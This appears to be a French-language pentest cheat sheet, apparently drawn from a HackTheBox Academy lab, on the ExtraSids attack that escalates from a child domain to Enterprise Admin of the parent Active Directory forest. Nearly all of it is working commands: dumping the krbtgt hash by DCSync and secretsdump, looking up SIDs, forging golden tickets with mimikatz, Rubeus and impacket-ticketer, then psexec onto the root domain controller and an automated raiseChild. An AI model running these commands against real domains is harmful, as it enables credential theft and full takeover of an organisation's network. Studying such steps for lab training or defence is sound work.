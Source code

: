 ## ExtraSids 
### Windows
Ajoute le SID d'un usagé d'un trust enfant ans le groupe Enterprise Admins du parent.
Besoin de :
* KRBTGT hash du domaine enfant
	* mimikatz: `lsadump::dcsync /user:LOGISTICS\krbtgt`
* SID du domaine enfant
	* `get-addomain | select DNSRoot,DomainSID`
	* powerview `Get-DomainSID`
* nom d'un usager du domaine enfant (pas besoin d'exister)
* FQDN du domaine enfant
* SID du groupe Enterprise Admin du domaine racine
	* powerview `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`
	* `Get-ADGroup -identity "Enterprise Admins" -server inlanefreight.local`
* Mimikatz, Rubeus
```powershell
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
#sid = Domaine
#sids = Enterprise Admin
```
```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
#sid = Domaine
#sids = Enterprise Admin
```

### Linux

* KRBTGT hash du domaine enfant
	* `impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`
* SID du domaine enfant
	* `impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240`
* nom d'un usager du domaine enfant (pas besoin d'exister)
* FQDN du domaine enfant
* SID du groupe Enterprise Admin du domaine racine
	* `impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`
	* concaténé le SID du domaine le RID pour avoir SID du groupe `<SID_domaine>-<RID>`

Crée un fichier CCache
```shell
impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
#extra-sid = groupe
#Exporter de cette façon pour utiliser dans auth kerberos
export KRB5CCNAME=hacker.ccache 
impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

```

Automatiser le tout
```shell
impacket-raiseChild -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```